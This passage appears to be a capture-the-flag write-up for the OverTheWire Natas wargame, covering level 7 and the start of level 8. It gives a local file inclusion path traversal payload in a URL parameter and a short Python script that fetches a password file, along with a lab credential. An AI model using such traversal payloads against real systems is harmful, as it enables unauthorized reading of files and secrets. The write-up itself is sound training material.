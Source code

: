 ```html
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>

```

`<a>` tag for those page refers `index.php` , so we use local file inclusion technique [references](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
as we know password for next level is stored in path `/natas_webpass/` , we use `page` parameter and redirect from root using `../../../../natas_webpass/natas8` exactly URL look like this [http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8](http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8)

```py
import requests
import re

username = 'natas7'
password = 'jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr'
url = 'http://%s.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8'%username
response = requests.get(url,auth=(username,password) )
content = response.text
flag = re.findall("<br>\n(.*)\n\n<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->",content)[0]
print(flag)
```

---

### Natas 8

<img src="img/Pasted image 20240424123959.png" alt="Example Image" width="1080"/>
<br>
Again its looks similar to natas6 web page
it has one input and [view_source](http://natas8.natas.labs.overthewire.org/index-source.html)

